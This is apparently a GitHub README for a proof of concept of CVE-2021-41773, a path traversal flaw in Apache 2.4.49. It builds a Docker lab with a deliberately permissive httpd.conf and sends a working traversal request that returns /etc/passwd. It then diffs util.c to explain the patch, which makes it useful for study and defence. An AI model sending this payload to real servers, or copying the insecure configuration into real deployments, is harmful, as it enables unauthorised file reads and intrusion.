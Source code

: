 # CVE-2021-41773
CVE-2021-41773 POC with Docker

### Configuration
To customize the `httpd.conf` file, change line `251` in the `<Directory />` section from `Require all denied` to `Require all granted`.
```
<Directory />
    AllowOverride none
    Require all granted
</Directory>
```

### Create a Dockerfile in your project

```
FROM httpd:2.4.49
COPY ./httpd.conf /usr/local/apache2/conf/httpd.conf
```

Then, run the commands to build and run the Docker image:

```
$ docker build -t apache-pt .
$ docker run -dit --name apache-pt-app -p 81:80 apache-pt
```

### Exploit
Send the following request using BurpSuite Repeater.

```
GET /cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd HTTP/1.1
Host: localhost:81
User-Agent: Mozilla
Connection: close


```

Response:

```
HTTP/1.1 200 OK
Date: Wed, 06 Oct 2021 02:32:09 GMT
Server: Apache/2.4.49 (Unix)
Last-Modified: Mon, 27 Sep 2021 00:00:00 GMT
ETag: "39e-5cceec7356000"
Accept-Ranges: bytes
Content-Length: 926
Connection: close

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin

```

### Patch revision
The source code for Apache 2.4.49 (vulnerable) and Apache 2.4.50 (patched) can be downloaded respectively from: 

* https://dlcdn.apache.org//httpd/httpd-2.4.49.tar.gz
* https://dlcdn.apache.org//httpd/httpd-2.4.50.tar.gz

```
$ wget https://dlcdn.apache.org//httpd/httpd-2.4.49.tar.gz
$ wget https://dlcdn.apache.org//httpd/httpd-2.4.50.tar.gz
```

The vulnerability is found in the `/server/util.c` file at line `571` where validation is applied for payloads of type `/xx/../` but not for `/xx/.%2e/`.

The difference between the vulnerable code and the patched code can be obtained with the command diff.
```
$ diff httpd-2.4.49/server/util.c httpd-2.4.50/server/util.c
505c505,506
<     apr_size_t l = 1, w = 1;
---
>     apr_size_t l = 1, w = 1, n;
>     int decode_unreserved = (flags & AP_NORMALIZE_DECODE_UNRESERVED) != 0;
532c533
<         if ((flags & AP_NORMALIZE_DECODE_UNRESERVED)
---
>         if (decode_unreserved
570,571c571,581
<                 /* Remove /xx/../ segments */
<                 if (path[l + 1] == '.' && IS_SLASH_OR_NUL(path[l + 2])) {
---
>                 /* Remove /xx/../ segments (or /xx/.%2e/ when
>                  * AP_NORMALIZE_DECODE_UNRESERVED is set since we
>                  * decoded only the first dot above).
>                  */
>                 n = l + 1;
>                 if ((path[n] == '.' || (decode_unreserved
>                                         && path[n] == '%'
>                                         && path[++n] == '2'
>                                         && (path[++n] == 'e'
>                                             || path[n] == 'E')))
>                         && IS_SLASH_OR_NUL(path[n + 1])) {
588c598
<                     l += 2;
---
>                     l = n + 1;
```
